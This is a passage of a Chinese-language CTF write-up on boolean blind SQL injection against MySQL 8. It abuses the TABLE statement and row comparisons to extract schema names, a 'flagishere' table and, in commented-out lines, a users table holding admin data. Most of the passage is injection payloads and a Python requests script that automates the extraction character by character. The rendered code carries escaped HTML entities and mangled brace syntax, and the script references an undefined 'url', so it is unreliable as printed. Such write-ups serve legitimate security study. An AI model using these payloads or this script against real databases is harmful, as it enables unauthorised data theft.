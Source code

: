 ```
id=0||(binary't','',3,4)&lt;(table/**/sys.schema_tables_with_full_table_scans/**/limit/**/0,1)
```

可以通过脚本注出第一个参数是 test 后紧接着注第一行第二个字段

```
id=0||('test',binary'u',3,4)&lt;(table/**/sys.schema_tables_with_full_table_scans/**/limit/**/0,1)
```

[![](https://p3.ssl.qhimg.com/t012fc922273112ef31.png)](https://p3.ssl.qhimg.com/t012fc922273112ef31.png)

第一位字符，MySQL8 此时小于号为小于等于所以第一位当大于 `u` 时则返回0，也就是 0||0 无数据，但是小于等于 `u` 时返回为 0||1 返回 id=1 时的数据，通过此方向进行布尔盲注，最后注出 test 数据库中另一个表单名 flagishere。

不知道字段名也可以注入，还是通过 table 猜测字段个数然后带出每个字段的数据

```
id=0||('0',1)&lt;(table/**/flagishere/**/limit/**/0,1)
```

[![](https://p4.ssl.qhimg.com/t01ea48b8eb6e347de8.png)](https://p4.ssl.qhimg.com/t01ea48b8eb6e347de8.png)

因为只有一位， MySQL8 当作最后一位来看，小于号就是发挥小于的作用，所以强制转换位整型后，0&lt;1返回 1 则输出 id=1 的结果，而 1&lt;1 返回 0 则不输出结果，最后就是总结，写个盲注的脚本

```
# -*-coding:utf-8-*-
import requests

def bind_sql():
    flag = ""
    dic = "~`}`|`{`zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?&gt;=&lt;;:9876543210/-,+*)(&amp;%$#!"
    for i in range(1000):
        f = flag
        for j in dic:
            _ = flag + j
            # payload = "id=0||(binary'`{``}`','',3,4)&lt;(table/**/sys.schema_tables_with_full_table_scans/**/limit/**/0,1)".format(_)
            # payload = "id=0||('test',binary'`{``}`',3,4)&lt;(table/**/sys.schema_tables_with_full_table_scans/**/limit/**/0,1)".format(_)
            # payload = "id=0||('test',binary'`{``}`',3,4)&lt;(table/**/sys.schema_tables_with_full_table_scans/**/limit/**/2,1)".format(_)
            # payload = "id=0||(1,binary'`{``}`',3)&lt;(table/**/users/**/limit/**/0,1)".format(_)
            # payload = "id=0||('1','admin',binary'`{``}`')&lt;(table/**/users/**/limit/**/0,1)".format(_)
            payload = "id=0||('1',binary'`{``}`')&lt;(table/**/flagishere/**/limit/**/0,1)".format(_)
            print(payload)
            data = `{`
                "id": payload
            `}`
            res = requests.post(url=url, data=data)
            if 'admin' in res.text:
                # 匹配字段最后一位需要加1, 也就是匹配出 admim 其实是 admin
                if j == '~':
                    flag = flag[:-1] + chr(ord(flag[-1])+1)
                    print(flag)
                    exit()
                flag += j
                print(flag)
                break
        if flag == f:
            break
    return flag

```